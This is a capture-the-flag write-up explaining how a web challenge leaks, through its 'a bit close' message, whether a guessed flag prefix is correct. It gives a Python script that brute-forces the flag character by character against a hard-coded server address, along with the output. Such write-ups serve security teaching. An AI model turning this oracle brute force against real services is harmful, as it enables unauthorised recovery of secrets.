

# Step by step

Author: X4v1l0k

## Website

</br>
Looks simple enough, when I entered `NETON{`:</br>
</br>
This message popped up in the top left corner. So we know what to look for, now just the source:
```html
<!DOCTYPE html>
<html>
	<head>
	</head>
	<body>
				<form action="/index.php" method="post">
			<div align='center'>
				<h1>Try to find the flag</h1>
				<input type="text" placeholder="Flag" name="flag" required>
				<hr>
				<button type="submit" name="send" class="boton">Send</button>
			</div>
		</form>
	</body>
</html>
```
On a correct part we get:
```html
<!DOCTYPE html>
<html>
	<head>
	</head>
	<body>
		Hey, you are a bit close than before!		<form action="/index.php" method="post">
			<div align='center'>
				<h1>Try to find the flag</h1>
				<input type="text" placeholder="Flag" name="flag" required>
				<hr>
				<button type="submit" name="send" class="boton">Send</button>
			</div>
		</form>
	</body>
</html>
```
And if we send a wrong one:
```html
<!DOCTYPE html>
<html>
	<head>
	</head>
	<body>
		Sorry, wrong flag!		<form action="/index.php" method="post">
			<div align='center'>
				<h1>Try to find the flag</h1>
				<input type="text" placeholder="Flag" name="flag" required>
				<hr>
				<button type="submit" name="send" class="boton">Send</button>
			</div>
		</form>
	</body>
</html>
```
As before, we know what url to send our POST request to, and what is the name of our input `flag`. Time to script!

## solve.py

We will need requests:
```py
import requests
```
Then we can start firing off our attempts to the website. Oh! And we will also need:
```py
import string
```
To have our full alphabet ready. So at first I used just string.printable. But there is one problem, it begins with `0` and that is just one part of the flag, so I modified the alphabet (after a hint from N0xi0us. Thanks! <3):
```py
alphabet = string.printable[10:]+string.printable[:10]
```
Then the rest is straightforward, just check for the error or the good message and do this until the whole flag appears:
```python
import requests
import string

alphabet = string.printable[10:]+string.printable[:10]

url = 'http://167.99.129.209:7788/index.php'

check_string = 'Hey, you are a bit close than before!'
fail = 'Sorry, wrong flag!'

flag = ''
i = 0
while True:
	i = i + 1
	for a in alphabet:
		try:
			data = { 'flag' : flag+a }
			re = requests.post(url,data=data)

			if check_string in re.text:
				flag = flag+a
				print(f'Iteration: {i} Next: {flag}')
		
		except KeyboardInterrupt as k:
			print('exit')
			raise k
		except Exception:
			pass

```
And the output:
```Java
python .\solve.py
Iteration: 1 Next: a
Iteration: 1 Next: ag
Iteration: 1 Next: ag
Iteration: 2 Next: ag i
Iteration: 2 Next: ag is
Iteration: 2 Next: ag is:
Iteration: 2 Next: ag is:
Iteration: 3 Next: ag is: S
Iteration: 4 Next: ag is: Su
Iteration: 4 Next: ag is: SuB
Iteration: 5 Next: ag is: SuBs
Iteration: 5 Next: ag is: SuBsT
Iteration: 6 Next: ag is: SuBsTr
Iteration: 6 Next: ag is: SuBsTr1
Iteration: 7 Next: ag is: SuBsTr1n
Iteration: 7 Next: ag is: SuBsTr1nG
Iteration: 8 Next: ag is: SuBsTr1nGs
Iteration: 8 Next: ag is: SuBsTr1nGs_
Iteration: 8 Next: ag is: SuBsTr1nGs_4
Iteration: 9 Next: ag is: SuBsTr1nGs_4r
Iteration: 9 Next: ag is: SuBsTr1nGs_4r3
Iteration: 10 Next: ag is: SuBsTr1nGs_4r3_
Iteration: 11 Next: ag is: SuBsTr1nGs_4r3_F
Iteration: 12 Next: ag is: SuBsTr1nGs_4r3_Fu
Iteration: 12 Next: ag is: SuBsTr1nGs_4r3_FuN
Iteration: 12 Next: ag is: SuBsTr1nGs_4r3_FuN_
Iteration: 12 Next: ag is: SuBsTr1nGs_4r3_FuN_4
Iteration: 13 Next: ag is: SuBsTr1nGs_4r3_FuN_4n
Iteration: 13 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD
Iteration: 13 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_
Iteration: 14 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C
Iteration: 14 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0
Iteration: 15 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0u
Iteration: 15 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uL
Iteration: 16 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD
Iteration: 16 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_
Iteration: 17 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b
Iteration: 17 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3
Iteration: 18 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_
Iteration: 19 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_v
Iteration: 19 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vU
Iteration: 20 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUl
Iteration: 20 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln
Iteration: 20 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3
Iteration: 21 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3r
Iteration: 21 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3rA
Iteration: 22 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3rAb
Iteration: 22 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3rAbL
Iteration: 22 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3rAbL3
```
So the flag is `NETON{SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3rAbL3}`